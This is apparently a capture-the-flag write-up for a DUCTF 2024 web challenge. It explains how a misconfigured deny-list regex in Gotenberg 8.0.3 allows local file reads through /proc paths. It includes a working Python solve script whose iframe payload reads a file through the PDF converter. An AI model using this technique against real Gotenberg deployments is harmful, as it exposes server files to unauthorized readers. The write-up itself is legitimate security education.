 ```yaml
---
ai_date: '2025-04-27 05:15:36'
ai_summary: Exploited misconfigured regex to access /etc/flag.txt via `/proc` path
  traversal in Chromium Docker image
ai_tags:
- lfi
- proc-tmp
- path-traversal
created: 2024-07-05T20:39
description: smh bad regex
points: 129
solves: 173
title: hah_got_em
updated: 2024-07-07T21:47
---
```


## Analysis
The docker image is fixed at `gotenbergv8.0.3`, I wonder why...
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720298973/2024/07/ec4bad9f49946fcd2204722dbbd5564c.png)

Turns out there's a security update right after.

After looking through the patch, I found the following lines that were removed.

```go
CHROMIUM_DENY_LIST="^file:///[^tmp].*"

if !b.arguments.allowList.MatchString(url) {
    return fmt.Errorf("'%s' does not match the expression from the allowed list: %w", url, ErrUrlNotAuthorized)
}

if b.arguments.denyList.String() != "" && b.arguments.denyList.MatchString(url) {
    return fmt.Errorf("'%s' matches the expression from the denied list: %w", url, ErrUrlNotAuthorized)
}
```

It appears that the regex was misconfigured and would allow any path that starts with either `t` `m` or `p`.
## Attack
To access `/etc/flag.txt` with a url starting with any character in `[tmp]`, the first thing that came to mind was `proc`.

So I used the docker shell and looked for flag.txt.

```sh
ls proc/*/*/*/* | grep flag.txt
```

```txt
...
proc/26/cwd/etc/flag.txt
proc/26/cwd/tmp/flag.txt
proc/26/root/etc/flag.txt
proc/26/root/tmp/flag.txt
proc/66/root/etc/flag.txt
proc/66/root/tmp/flag.txt
proc/7/root/etc/flag.txt
proc/7/root/tmp/flag.txt
proc/70/root/etc/flag.txt
proc/70/root/tmp/flag.txt
proc/71/root/etc/flag.txt
...
```

Wow, there's a lot of them, so I picked `pid=7` because I liked the number.

## Solve Script

```python
import requests
import io
import fitz
file_content = """
<iframe src="file:///proc/7/root/etc/flag.txt"></iframe>
"""
file_path = "index.html"

payload = io.BytesIO(file_content.encode('utf-8'))

url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/markdown"

files = {"html": (file_path, payload), "md": ("dummy.md", payload)}
response = requests.post(url, files=files)
if 'application/pdf' not in response.headers['Content-Type']:
    print(response.text)
    exit()
print(response.status_code)
pdf_bytes = io.BytesIO(response.content)
pdf_document = fitz.open(stream=pdf_bytes, filetype="pdf")
all_text = ""
for page_num in range(len(pdf_document)):
    page = pdf_document.load_page(page_num)
    all_text += page.get_text()
print(all_text)
```